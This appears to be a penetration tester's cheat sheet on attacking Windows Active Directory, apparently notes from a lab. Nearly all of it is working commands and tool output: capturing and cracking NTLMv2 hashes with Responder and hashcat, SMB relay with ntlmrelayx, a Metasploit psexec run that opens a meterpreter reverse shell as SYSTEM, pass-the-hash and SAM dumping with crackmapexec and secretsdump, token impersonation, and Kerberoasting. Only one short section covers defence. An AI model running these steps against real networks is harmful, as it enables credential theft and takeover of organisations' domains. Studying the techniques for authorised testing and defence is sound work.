 ## Active Directory Attack Guide.

#### Capture `NTLMv2` Hashes with `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Crack the Hash with `Hashcat`
```
> hashcat -m 5600 hash rockyou.txt
--help:
MODE | 5600 | NetNTLMv2 | Network Protocol
```

#### Edit the Responder Config File for SMB Relay Attack
```
> nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Starting `NTLMrelayx` part of Impacket Tools
```
> ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe) (Creating a payload with msfvenom)
-c -- run a command (whoami)

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from DOMAIN/user@192.168.164.141 controlled, attacking target smb://192.168.164.142
[*] Authenticating against smb://192.168.164.142 as DOMAIN/USER SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-4: Connection from DOMAIN/USER@192.168.164.141 controlled, but there are no more targets left!
[-] SMB SessionError: STATUS_NO_SUCH_FILE({File Not Found} The file %hs does not exist.)

```

#### `Netcat` Listener on localhost
```
> nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```
#### Exploiting the Target with `Metasploit`

```
> msfconsole

use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.164.141  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                                    ki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             DOMAIN.local     no        The Windows domain to use for authentication
   SMBPass               pass_123         no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser               user             no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.164.137  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.164.137:4444
[*] 192.168.164.141:445 - Connecting to the server...
[*] 192.168.164.141:445 - Authenticating to 192.168.164.141:445|marvel.local as user 'user'...
[*] 192.168.164.141:445 - Selecting PowerShell target
[*] 192.168.164.141:445 - Executing the payload...
[+] 192.168.164.141:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 192.168.164.141
[*] Meterpreter session 1 opened (192.168.164.137:4444 -> 192.168.164.141:58863 ) at 2022-01-12 22:38:10 +0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
#### Enumeration with `PowerView.ps1`
```
> powershell -ep bypass

> . .\PowerView.ps1

> Get-NetDomain

> Get-NetDomainController

> Get-DomainPolicy
	> (Get-DomainPolicy)."system access"
		
> Get-NetUser (select = grep in Linux)
	> Get-NetUser | select description
	> Get-NetUser | select samaccountname
	> Get-NetUser | select cn
		
> Get-UserProperty
	> Get-UserProperty -Properties pwdlastset
		
> Get-NetComputer (select = grep in Linux)
	> Get-NetComputer | select cn
	> Get-NetComputer | select operatingSystem
		
> Get-NetGroup
	> Get-NetGroup -Identity *admin*
		
> Get-NetGroupMember -Identity "Domain Admins"

> Invoke-ShareFinder

> Get-NetGPO | select displayname, whenchange      
```

### Note: ```NTLM``` hash can be passed but not ```NTLMv2```

#### Pass the Hash with `Crackmapexec`

```
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password

. DumpHashes
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password --sam

> crackmapexec smb 192.168.164.0/24 -u "Full Name" -H HASH --local-auth

```

#### Dumping Hash with `Secretsdump.py`
```
> secretsdump.py domain/user:password@192.168.164.141
```
#### Getting a Shell with `PsExec.py` (LMHASH:NTHASH)
```
> psexec.py "username":@192.168.164.141 -hashes LMHASH:NTHASH 	
```

#### Defending against `Pass the Hash`

1. Limit Account re-use:
 
	. Avoid re-using `local Admin password`
	
	. Disable `Guest` and `Administrator` accounts
	
	. Limit who is a `Local Administrator`
	
2. Utilize Strong Passwords:
 
	. Use `14 characters`or more
	
	. Avoid using `common words`
	
	. Use `long sentences`
3. Privilege Access Management (`PAM`)
	
	. Check `sensitive Accounts` when needed.
	
	. Automatically rotate passwords on checkout and checkin
	
	. Limit pass attacks as hash/password is strong and constantly rotated
		
#### Token Impersonation with `Incognito` (Metasploit)
Note: Impersonation works with Logged in Users, Token is valid till the PC is Rebooted.

 * Delegate Token - Login or RDP Sessions
```
meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token domain\\user

meterpreter > shell

C:\Windows\system32>whoami

meterpreter > rev2self (revert back to user we gained shell as)
```	
#### Dumping Hashes with `GetUserSPNs.py` (`Kerberoasting`)
```
> GetUserSPNs.py DOMAIN.local/user:password -dc-ip (DC-ip-addr) -request
```

#### Cracking `Kerberos` Hash with Hashcat
```
> hashcat -m 13100 kerberos-hash.txt rockyou.txt
MODE | 13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
```
